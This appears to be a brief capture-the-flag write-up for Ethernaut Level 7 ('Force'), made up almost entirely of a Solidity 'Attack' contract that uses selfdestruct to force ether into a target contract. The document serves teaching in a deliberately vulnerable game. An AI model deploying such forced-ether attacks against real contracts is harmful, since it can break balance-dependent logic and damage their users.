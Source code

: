 +++
title = 'Ethernaut Level 7 - Force'
date = 2024-04-08 05:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Selfdestruct to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface EtherGame {}

// Mostly copied from https://solidity-by-example.org/hacks/self-destruct/
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```